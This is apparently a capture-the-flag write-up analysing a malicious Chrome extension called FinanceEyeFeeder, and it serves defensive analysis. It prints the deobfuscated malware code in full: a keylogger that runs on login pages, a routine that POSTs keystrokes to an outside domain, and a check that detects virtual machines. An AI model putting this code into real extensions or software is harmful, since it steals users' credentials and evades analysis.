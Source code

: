 ```yaml
---
title: Suspicious Browser Extension Analysis
---
```


**Description: Analyzing a malicious browser extension**
Suspicious Browser Extension - Let's Defend https://app.letsdefend.io/challenge/suspicious-browser-extension

For this challenge, we're given a `.crx` file which is a Chrome extension file. We can confirm this by running `file` on it:

![](https://i.imgur.com/gqYjnxu.png)

Browser extensions are typically `.zip` files that contain the elements that make up the extension such as any Javascript, HTML, or other assets like the images associated with the extension. Knowing this, we can simply `.unzip` the extension to perform further analysis:

`unzip FinanceEYEfeeder.crx`

![](https://i.imgur.com/4o0rjIu.png)

The main file in browser extensions that typically has metadata is the `manifest.json` file which was extracted. The `manifest.json` file allows for an extension to specify metadata such as its name, description, version, etc.

The metadata of our suspicious browser extension includes:

![](https://i.imgur.com/exoJKa7.png)

The extension's name is FinanceEyeFeeder and it's described as being "a *trusted* utility for reading financial news." 

As you can see from the screenshot of when we unzipped the `.crx` file, there are 2 Javascript files associated with it. You can also see how these files are referenced in the manifest file:

* `background.js` which is set to run in the background
* `content.js` which is set to run in the context of a webpage, meaning it can read webpage elements, modify those elements, and pass info to their parent extension
  * Reference: https://developer.chrome.com/docs/extensions/mv3/content_scripts/

Now that we know the name of the extension, we can visit `crxcavator.io` to search for the extension by name to see if it's known.

* *NOTE https://crxcavator.io is an extension scanner that will tell you how risky a browser extension is using factors such as: the permissions the extension requires, the vulnerable 3rd party Javascript libraries it uses, etc*

![](https://i.imgur.com/pqWQiQ8.png)

Unfortunately `crxcavator` hasn't scanned our extension yet. 

We'll now move on to using another tool known as [ExtAnalysis](https://github.com/Tuhinshubhra/ExtAnalysis) to further analyze the extension

*NOTE: You may have to downgrade your pip version before installing the requirements necessary for running ExtAnalysis. I had to downgrade to version 21.3.1 by running pip install pip==21.3.1*

Once ExtAnalysis is installed, run it using `python3 extanalysis.py` and you'll be taken to a webpage where you can upload the `.crx` file.

Once it's uploaded, you'll be presented with an analysis report which can be accesed by going to `analysis reports > reload reports > view`

![](https://i.imgur.com/uQIoaYE.png)

The **author** of the extension is unknown and there are 2 **unique domains & extracted URLs**. 

We can begin analyzing the 2 javascript files within the extension by going to files > view source for `background.js`:

![](https://i.imgur.com/wuV0xVO.png)

We can then use [a javascript deobfuscator](https://deobfuscate.io/) to make the code easier to read:

```javascript
function c() {
  var o = ["apply", "nction() ", "console", "info", "key", "responseTe", "txt", "setRequest", "ded", "onMessage"];
  c = function () {
    return o;
  };
  return c();
}
function d(a, b) {
  var e = c();
  return d = function (f, g) {
    f = f - 0;
    var h = e[f];
    return h;
  }, d(a, b);
}
var b = function () {
  var e = true;
  return function (f, g) {
    var h = e ? function () {
      if (g) {
        var i = g[d(0)](f, arguments);
        return g = null, i;
      }
    } : function () {};
    return e = false, h;
  };
}(), a = b(this, function () {
  var f;
  try {
    var g = Function("return (fu" + d(1) + '{}.constructor("return this")( )' + ");");
    f = g();
  } catch (n) {
    f = window;
  }
  var h = f[d(2)] = f.console || {}, i = ["log", "warn", d(3), "error", "exception", "table", "trace"];
  for (var j = 0; j < i.length; j++) {
    var k = b.constructor.prototype.bind(b), l = i[j], m = h[l] || k;
    k.__proto__ = b.bind(b), k.toString = m.toString.bind(m), h[l] = k;
  }
});
a();
function handleMessage(e) {
  data = d(4) + e[d(4)] + "&page=" + e.page;
  var f = new XMLHttpRequest;
  f.onload = function () {
    console(this[d(5) + "xt"]);
  }, f.open("POST", "https://google-analytics-cm.com/analytics-3032344." + d(6), true), f[d(7) + "Header"]("Content-Type", "application/x-www-form-urlenco" + d(8)), f.send(data);
}
chrome.runtime[d(9)].addListener(handleMessage);
```

The `handleMessage` function is responsible for exfiltrating some data and POSTing it to the specified URL, but the URL is currently obfuscated. 

Deobfuscation is handled by the `c`, `d`, `b`, & `a` functions. We can deobfuscate the URL by simply pasting the functions into a browser console, then putting the URL deobfuscation process into a variable & calling that variable:

![](https://i.imgur.com/pAEDRE7.png)

The URL we get is `https://google-analytics-cm[.]com/analytics-3032344.txt`

Let's move on to investigate the other javascript file, `content.js`:

![](https://i.imgur.com/BWnMq6I.png)

Running through the deobfuscator:

```javascript
chrome.runtime.onConnect.addListener(function (_0x8616x1) {});
chrome.webRequest.onBeforeRequest.addListener(function (_0x8616x2) {
  if (_0x8616x2.url == str.match("^(.*[/])?login.aspx([?].*)?$")) {
    var _0x8616x3 = "";
    var _0x8616x4 = {};
    window.onkeydown = function (_0x8616x5) {
      if (_0x8616x5.key.length > 1) {
        _0x8616x3 = " (" + _0x8616x5.key + ") ";
      } else {
        _0x8616x3 = _0x8616x5.key;
      }
      ;
      _0x8616x4 = {key: _0x8616x3, page: window.location.href};
      chrome.runtime.sendMessage(_0x8616x4);
    };
  }
});
```

The job of this file is to activate a keylogger if the user visits any URL that ends in `login.aspx`, indicating a login page. 

We can now move on to analyzing the `ThankYou.html` file which appeared to be suspicious:

```html
                <!DOCTYPE html>
<html>
<body onload="FinanceSorter()">

<script>
chrome.processes.getProcessInfo(); 
function FinanceSorter() {
  var canvas = document.createElement('canvas');
  var gl = canvas.getContext('webgl');
  var debugInfo = gl.getExtension('WEBGL_debug_renderer_info');
  var vendor = gl.getParameter(debugInfo.UNMASKED_VENDOR_WEBGL);
  var renderer = gl.getParameter(debugInfo.UNMASKED_RENDERER_WEBGL);

  var width = screen.width;
  var height = screen.height;
  var color_depth = screen.colorDepth;

  setTimeout(function(){
    if (true) {
      if (/swiftshader/i.test(renderer.toLowerCase()) || /llvmpipe/i.test(renderer.toLowerCase()) || /virtualbox/i.test(renderer.toLowerCase()) || /vmware/i.test(renderer.toLowerCase()) || !renderer){
        console.log("检测到")
        chrome.processes.terminate(0);
      }
        else if (color_depth < 24 || width < 100 || width < 100 || color_depth){
          console.log("检测到")
          chrome.processes.terminate(0);
      }

    }
  }, 200);  
}
</script>

</body>
</html>
```

This HTML file has the responsibility of detecting if the extension is running in a virtual machine. If it is is, then it terminates the Google Chrome process and logs the word "Detected" in Chinese to the browser's console. It attempts to detect this by searching for certain renderers, specifically vmware, virtualbox, and llvmpipe. It also attempts to detect if its running in a VM by looking at the machine's color depth. 

If you have been infected with this extension previously, it's recommended that you change your passwords and ensure that you only install extensions that are reputable.

# 
